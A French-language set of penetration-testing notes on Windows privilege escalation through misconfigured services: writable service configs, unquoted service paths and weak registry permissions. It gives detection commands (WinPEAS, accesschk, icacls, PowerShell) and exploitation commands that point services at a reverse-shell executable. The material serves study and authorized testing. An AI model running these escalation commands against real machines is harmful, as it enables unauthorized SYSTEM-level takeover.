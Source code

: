 ```yaml
---
public: true
---
```


**Détails de Recherche de vecteur d'escalade via des services : [[Weak Permissions]]**

## Trouver un service vulnérable (automatique)

`WinPeas` identifie tous les services vulnérables.

Il faut regarder les sections suivantes :

```shell
# Information sur les services
===============(Services Information)=============

# Information sur les Applications (à recouper avec les chemin d'accès des services)
===========(Applications Information)================
```

## Permissions de modifier un service

Si on peut modifier un service, on pourra remplacer le processus lancé par un reverse shell.

### Detection

#### Manuelle

```shell
accesschk -accepteula -quwc daclsvc
daclsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  RW Everyone                          <====================
```

#### Automatique

Dans les résultats de la commande `.\winPEASany.exe quiet servicesinfo applicationsinfo` :

```shell
===============(Services Information)=============
 daclsvc(DACL Service)["C:\Program Files\DACL Service\daclservice.exe"] - Manual - Stopped
    YOU CAN MODIFY THIS SERVICE: WriteData/CreateFiles       <=====
```

### Exploitation

```shell
# Changement du path du service
net stop daclsvc
sc config daclsvc binpath= "\"C:\Windows\Temp\reverse.exe\""
net start daclsvc
```

## Unquoted service path
### Détection
#### Manuelle
Enuméré les services, et selectioner ceux qui ne commencent pas par des guillemets.
Exemple avec le path : `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`

```shell
# vérification avec icacls des différent chemins exploitables
"C:\Program Files\Unquoted Path Service\Common.exe"
"C:\Program Files\Unquoted.exe"
"C:\Program.exe"

# tenter de créer un fichier :
echo "test" > "C:\Program Files\Unquoted Path Service\Common.exe"
del "C:\Program Files\Unquoted Path Service\Common.exe"
# si pas d'erreur alors c'est exploitable

```
Remarque : On doit pouvoir le faire avec `icacls` ou `accesschk.exe` mais je n'ai pas pris le temps de creuser pour obtenir une méthode fiable.

#### Automatique

```shell
===============(Services Information)=============
[...]
unquotedsvc(Unquoted Path Service)[C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe] - Manual - Stopped - 
No quotes and Space detected
   =================================================================================================                                <=====
[...]

=========(Applications Information)=======
[...]
C:\Program Files\Unquoted Path Service(Users [AllAccess])       <====
[...]
```

### Exploitation

```shell
copy reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
net stop unquotedsvc
net start unquotedsvc
```

## Weak registry permissions

### Detection

#### Manuelle
```shell
# trouver un groupe dont on est membre dans la liste fournie par la commande :
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

#### Automatique
```shell
==============(Services Information)===============
[...]
 LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
 daclsvc: WriteData/CreateFiles
```

### Exploitation

```shell
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
net start regsvc
```

## Trouver un service vulnérable (manuel)

### Lister les services

Lorsqu'on liste les service, on recherche en priorité des **chemins d'accès atypiques** qui potentiellement  seront moins bien conçus que les services natif au système d'exploitation :

Hors du dossier `c:\windows`

```powershell
get-wmiobject win32_service | select name,state, startmode,pathname,StartName | ?{$_.StartName -eq "LocalSystem" -and $_.pathname -notlike "c:\Windows\*" }| Sort PathName |ft
```

```shell
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

Tous les services

```powershell
get-wmiobject win32_service | select name,state, startmode,pathname,StartName | ?{$_.StartName -eq "LocalSystem" -and $_.pathname -notlike "C:\Windows\system32\svchost.exe *" }| Sort PathName |ft
```

### Regardes les permissions

#### Droits de modification d'éléments dans le path

Prenons l'exemple du service suivant :

```
C:\Program Files\Super Vendor\Great Product\superservice.exe
```

On cherchera si on peut créer les exécutables suivants :

- `C:\Program Files\Super Vendor\Great.exe`
- `C:\Program Files\Super.exe`
- `C:\Program.exe`

On vérifie donc les permission sur les dossiers parents de ces fichier potentiels :

```shell
# REMARQUE : pour les dossiers, il ne faut pas ajouter de "\" à la fin !
icacls "C:\Program Files\Super Vendor"
icacls "C:\Program Files"
icacls "C:\"
```

Exemple de permissions :

```shell
# peut créer des Dossiers MAIS PAS des fichiers
CREATOR OWNER:(OI)(CI)(IO)(F) 
# peut créer des dossiers ET des fichiers !! (exploitable)

CREATOR OWNER:(I)(OI)(CI)(IO)(F)

```

#### Unquoted service path

Pour ce type de mauvaise configuration, on cherchera des services dont le chemin d'accès :

- n'est pas entouré de "doubles quotes" (guillemets)
- contient des dossier contenant des espaces dans leur nom

### Services en dehors de c:\windows\system32

```powershell
# démarrés ou non
get-wmiobject win32_service | select name,state, startmode,pathname,StartName | ?{$_.StartName -eq "LocalSystem" -and $_.pathname -notlike "c:\Windows\System32\*" }|ft


# Rechercher des chemins d'accès atypiques 
get-wmiobject win32_service | select name,state, startmode,pathname,StartName |?{$_.State -like 'Running'}|Sort StartName | ft

  
# Liste des services sans ceux dans c:\windows :
get-wmiobject win32_service | select name,state,pathname |?{$_.State -like 'Running'} |? {$_.Pathname -notmatch 'c:\\Windows\\.*' }

# Vérifier les permissions
> icacls 'C:\Program Files\Ext2Fsd\Ext2Srv.exe'
C:\Program Files\Ext2Fsd\Ext2Srv.exe AUTORITE NT\Système:(I)(F)
                                     BUILTIN\Administrateurs:(I)(F)
                                     BUILTIN\Utilisateurs:(I)(RX)
                                     AUTORITÉ DE PACKAGE D’APPLICATION\TOUS LES PACKAGES D’APPLICATION:(I)(RX)
                                     AUTORITÉ DE PACKAGE D’APPLICATION\TOUS LES PACKAGES D’APPLICATION RESTREINTS:(I)(RX)

```

[Documentation icacls](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)

- A sequence of simple rights (basic permissions):
	- F - Full access
	- M - Modify access
	- RX - Read and execute access
	- R - Read-only access
	- W - Write-only access
- Inheritance rights may precede either `<perm>` form:
	- **(I)** - Inherit. ACE inherited from the parent container.
	- (OI)** - Object inherit. Objects in this container will inherit this ACE. Applies only to directories.
	- **(CI)** - Container inherit. Containers in this parent container will inherit this ACE. Applies only to directories.
	- **(IO)** - Inherit only. ACE inherited from the parent container, but does not apply to the object itself. Applies only to directories.
	- **(NP)** - Do not propagate inherit. ACE inherited by containers and objects from the parent container, but does not propagate to nested containers. Applies only to directories.
